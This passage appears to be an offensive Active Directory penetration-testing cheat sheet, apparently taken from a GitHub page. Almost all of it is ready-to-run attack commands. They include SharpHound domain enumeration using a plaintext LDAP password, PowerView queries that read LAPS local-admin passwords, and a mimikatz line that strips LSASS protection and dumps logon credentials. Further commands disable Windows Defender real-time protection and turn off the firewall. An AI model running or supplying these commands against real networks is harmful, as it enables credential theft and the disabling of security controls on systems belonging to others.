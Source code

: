 ```powershell
SharpHound.exe -c All,GPOLocalGroup,LoggedOn --domain final.com --ldapusername nina --ldappassword 'PasswordRulon123!'

ipmo .\adpeas.ps1

Invoke-adPEAS
```
### LAPS

- Check LAPS
```powershell
ipmo powerview.ps1

get-netcomputer -Filter "(ms-mcs-admpwdexpirationtime=*)" | select dnshostname

```
- Read Password
```powershell
ipmo powerview.ps1

get-netcomputer -Filter "(ms-mcs-admpwd=*)" | select dnshostname,ms-mcs-admpwd
```
### AppLocker

- Check AppLocker
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```
- Bypass AppLocker

### PPL

- Check PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```
- Remove PPL
```cmd
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "sekurlsa::logonpasswords"exit
```
### Shutdown AV and Firewall

- In PowerShell
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true

netsh advfirewall set allprofiles state off
```
- In RDP

Manually shut down WD.

